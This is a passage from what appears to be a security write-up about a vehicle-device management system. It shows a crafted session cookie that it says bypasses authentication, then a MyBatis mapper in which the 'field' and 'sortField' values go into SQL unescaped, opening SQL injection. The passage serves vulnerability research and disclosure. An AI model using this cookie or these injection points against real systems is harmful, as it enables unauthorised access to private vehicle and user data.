 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.

### SQL Injection Vulnerability
Since the target system uses MyBatis, we only need to search globally for `${` to find overlooked vulnerabilities.

```xml
<select id="getLastMemoryStateItems" resultType="MemoryStateInfo" parameterType="HashMap">
		select b.vehicleid,carlicense,deviceno,deviceType,b.identification,b.username,b.repairstate,b.userstate,a.chipcode,a.type,a.serialnumber,a.powerduration,a.faultnumber,a.healtstate,a.remainingtime,a.totlesize,a.remainingcapacity,a.faultdetail,a.datetime,groupname,
		e.faultcount as faulttotal, e.firstfaulttime
		from last_memorylist as a inner join vehicledeviceinfo as b on a.chipcode=b.chipcode inner join groupinfo as c on b.groupid=c.groupid left JOIN memorylistfirstfault as e on a.serialnumber = e.serialnumber and e.serialnumber != ''
		<where>
			<if test="vehicleIdList.size()>0">
				b.vehicleId in 
				<foreach collection="vehicleIdList" item="vehicleId" separator="," open="(" close=")">
					#{vehicleId}
				</foreach>
			</if>
			<if test="repairState!=null and repairState!='-1'.toString()">
  				and b.repairstate=#{repairState}
  			</if>
  			 <if test="userNameList!=null and userNameList.size()>0">	
	   			and b.userName in
	  			<foreach collection="userNameList" item="userName" separator="," open="(" close=")">
	  				#{userName}
	  			</foreach>
	  		</if>	
			<if test="field==null and value!=null">
  				and (b.chipcode like concat('%',#{value},'%') or b.carlicense like concat('%',#{value},'%') 
  				or b.deviceno like concat('%',#{value},'%') or b.devicetype like concat('%',#{value},'%')
  				or b.identification like concat('%',#{value},'%'))
  			</if>
  			<if test="field!=null and value!=null">
  				and b.${field} like concat('%',#{value},'%')
  			</if>
			<if test="healtState!=-1">
				and a.healtstate=#{healtState}
			</if>
			<if test="type!=null and type!=''">
				and a.type=#{type}
			</if>
			<if test="firstFaultTime!=null and firstFaultTime!=''">
				and e.firstfaulttime&lt;=#{firstFaultTime}
			</if>
			<if test="faultTotal!=null and faultTotal!=''">
				and e.faultcount&gt;=#{faultTotal}
			</if>
		</where>
		<if test="sortField!=null">
			 order by ${sortField}
			 <if test="sortType=='desc'">
```